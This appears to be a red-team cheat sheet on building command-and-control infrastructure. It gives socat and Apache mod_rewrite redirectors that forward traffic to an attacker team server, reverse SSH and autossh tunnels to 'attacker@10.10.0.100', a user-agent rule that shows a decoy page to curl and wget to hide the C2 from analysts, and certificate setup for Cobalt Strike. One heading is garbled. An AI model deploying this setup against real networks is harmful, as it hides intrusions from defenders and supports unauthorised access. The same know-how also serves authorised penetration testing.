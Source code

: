 # Infraestructure 

## Redirectors

### socat

```bash
# Attacker 1
socat TCP4-LISTEN:80,fork TCP4:attackerIP:80
socat TCP4-LISTEN:80,fork TCP4:attackerIP2:80
#TCP 80 open Server C2
```

### Apache HTTPS Renmxcvbnbvcxzc vbc/director

#### Install

```bash
sudo apt install apache2
sudo a2enmod ssl rewrite proxy proxy_http
sudo systemctl restart apache2
```

#### Configuration

```bash
cd /etc/apache2/sites-enabled/
sudo rm 000-default.conf
sudo ln -s ../sites-available/default-ssl.conf .
sudo systemctl restart apache2
```

#### Generate certificates and configure

```bash
sudo certbot certonly --manual --preferred-challenges dns -d "*.domain.com" -d "domain.com"
# Modify default-ssl.conf
SSLCertificateFile     /etc/ssl/certs/certbot.pem
SSLCertificateKeyFile  /etc/ssl/private/certbot.key
```

#### SSH

```bash
scp localhost.crt attacker@10.10.0.100:/home/attacker/
sudo cp localhost.crt /usr/local/share/ca-certificates/
sudo update-ca-certificates
curl -v -k https://10.10.5.50
```

```bash
ssh -N -R 8443:localhost:443 attacker@10.10.0.100
```

#### Enabling Apache Redirection

```bash
# Modify /etc/apache2/sites-enabled/default-ssl.conf and add
<Directory /var/www/html/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride All
    Require all granted
</Directory>
# And underneath SSLEngine on, you can add
SSLProxyEngine on
# and if you have errors you can add also
SSLProxyVerify none
SSLProxyCheckPeerCN off
SSLProxyCheckPeerName off
SSLProxyCheckPeerExpire off
# restart apache2
sudo systemctl restart apache2
# create a new .htaccess file in the apache web root, /var/www/html
RewriteEngine on
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P]
```

#### User Agent rules

```bash
# Create a page
echo "Nothing to see here..." | sudo tee /var/www/html/diversion
# And modify .htaccess
RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule ^a$ diversion [PT]

RewriteCond /var/www/html/%{REQUEST_URI} -f
RewriteRule ^.*$ %{REQUEST_FILENAME} [L]

RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P]
```

##### Autossh (team server config)


```bash
Host                 redirector-1
HostName             <https redirector>
User                 <user>
Port                 22
IdentityFile         </home/attacker/.ssh/id_rsa>
RemoteForward        8443 localhost:443
ServerAliveInterval  30
ServerAliveCountMax  3
# and run
autossh -M 0 -f -N redirector-1
```

## C2

### Certificates (localhost)

```bash
openssl req -x509 -nodes -newkey rsa:2048 -keyout localhost.key -out localhost.crt -sha256 -days 365 -subj '/CN=localhost'
```

#### Cobalt Strike

```bash
# For Cobalt Strike
openssl pkcs12 -inkey localhost.key -in localhost.crt -export -out localhost.pfx # Enter password
keytool -importkeystore -srckeystore localhost.pfx -srcstoretype pkcs12 -destkeystore localhost.store
# Copy localhost.store to /home/attacker/cobaltstrike/ and modify .profile
https-certificate {
     set keystore "localhost.store";
     set password "pass123";
}
```